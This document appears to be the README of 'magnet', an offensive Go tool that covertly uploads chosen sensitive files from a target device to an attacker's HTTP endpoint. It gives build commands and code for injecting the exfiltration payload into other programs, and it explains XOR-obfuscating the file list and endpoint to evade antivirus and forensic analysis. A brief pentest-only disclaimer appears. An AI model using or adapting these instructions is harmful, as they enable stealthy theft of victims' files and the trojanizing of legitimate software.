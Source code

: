 <div align=center>
  <h1>magnet</h1>
  <pre>🧲⚡
  Grab interesting files from target</strong><br>

  <b><i>Cross-platform</i></b>
  <b><i>Stealth</i></b>
  <b><i>Portable</i></b>  
  </pre>
</div>

The library is built to fetch predefined files of interest from a remote device. It assumes that an HTTP endpoint is listening when the program is launched.

**Program execution on target will stealthy provide you the files you ask for.**

You have 2 possibilities:
* [Hide exfiltration in your program](#-inject-magnet-in-your-go-program)
* [Use the standalone `magnet` executable](#-standalone)

<sup><i>For educational purpose only or during pentest assessment with prior permission</i></sup>

## Usage

All the work is made **At compilation time**, you need to specify:
* ***The remote endpoint***, where juicy files are uploaded
* ***The Juicy files***, list of files you want to grab
* ***The target os***, to fit the target (between: `windows`, `darwin`, `linux`)

```shell
export KEY=[YOUR_KEY]
export FILES=[FILENAME]
export ENDPOINT=[ATTACKER_ENDPOINT]
export TARGET_OS=[TARGET_OS]
```

### 🥷 Inject `magnet` in your Go program

1. Add `magnet` import and declare variables outside your `main()` function:
```golang
import "github.com/ariary/magnet/pkg/magnet"

var FileList,Key,Endpoint string
```

2. Add magnet payload in the `main()`:
```golang
magnet.Magnet(FileList, Endpoint, Key, false)
```

3. Finally, modify the build command by adding `-ldflags "-X 'main.FileList=$FILES' -X 'main.Key=$KEY' -X 'main.Endpoint=$ENDPOINT'"`

see [declare `magnet`environment variables](#declare-magnet-envar)

### ⚡ Standalone



To build `magnet` binary in one step:
```shell
# ensure lobfuscator is in your PATH
./build.sh $TARGET_OS $FILES $ENDPOINT $KEY
```

See [`lobfuscator`](#build-lobfuscator) and [full example](https://github.com/ariary/magnet/blob/main/examples/EXAMPLES.md)


### Obfuscation/Encryption

To avoid detection systems, as we are seeking for sensitive files, **the different files we want to grab must not be in clear text within the binary** . Hence it used basic encryption with the key to decrypt embedded in binary. *(The aim is only to avoid AV and Detection system not to have strong encryption scheme)*

The same thing is made for the remote endpoints, to make the forensic analysis harder.

`lobfuscator` is the simple tool to perform the XOR encryption/decryption.

An exemple to build the obfuscated list:
```shell
cat [FILE] | lobfuscator $KEY > obfuscated.txt
# decrypt: cat obfuscated.txt | lobfuscator -d $KEY
```

#### Build `lobfuscator`
```shell
make build.lobfuscator
```

#### Declare `magnet` envar

Define `FILES` and `ENDPOINT` envar:
```shell
export FILES=$(cat [FILE] | lobfuscator $KEY)
export ENDPOINT=$(echo "[ENDPOINT]" | lobfuscator $KEY)
```

## Notes

* For the remote endpoint , I suggest you to use the `/push` endpoint of a [`gitar`](https://github.com/ariary/gitar) listener
* The software is built to be stealthy hence:
  * error handling is not verbose (hidden flag to get more verbosity `-thisisdebug`)
  * I suggest to overwrite usage string in `magnet.go` to fit your attack scenario (for standalone use)
* To enhance the binary obfuscation use [`garble`](https://github.com/burrowers/garble) to compile `magnet` instead of `go`(adapt `build.sh` consequently)

## To do

* Handle directories
* Use other protocols to send files (ICMP, DNS, SMTP, etc...)
* `magnetgentool` is on the making, it will be used with `//go:generate` comment to stealthy inject magnet code.
